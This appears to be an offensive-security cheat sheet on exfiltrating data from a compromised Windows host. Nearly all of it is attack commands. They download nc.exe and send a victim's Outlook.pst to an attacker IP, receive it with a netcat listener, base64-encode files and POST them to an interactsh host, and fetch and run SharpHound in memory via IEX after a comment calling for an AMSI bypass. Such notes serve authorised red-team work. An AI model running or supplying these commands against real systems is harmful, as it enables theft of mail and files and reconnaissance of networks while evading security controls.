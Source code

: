 # Exfiltrate data
On victim/client:

In powershell shell (powershell has the wget command):
```cmd
wget https://github.com/int0x33/nc.exe/raw/master/nc.exe -Outfile nc.exe
cmd /c 'nc.exe -w 3 <yourIP> 80 < Outlook.pst'
```

On receiving server:

```bash
nc -l -p 80 > Outlook.pst
```


Or via HTTP requests:

file/pdf extraction:
```powershell
$File = "file.pdf"
$uri = "ID.interactsh.com" # change the ID 
$pdf = Get-Content $File -Encoding Byte; 
$base64 =[Convert]::ToBase64String($pdf)
Invoke-WebRequest -uri $uri -Method Post -Body $base64
```

Use https://base64.guru/converter/decode/file#download-preview-file to get the file from the base64 content

bloodhound:
```powershell
# FIRST run AMSI bypass! 
$url = "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1"
IEX([Net.Webclient]::new().DownloadString($url))
mkdir "$Env:PUBLIC\bloodhound"
Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default  -OutputDirectory "$Env:PUBLIC\bloodhound"
# use file/pdf extraction to get the zip file. 
```
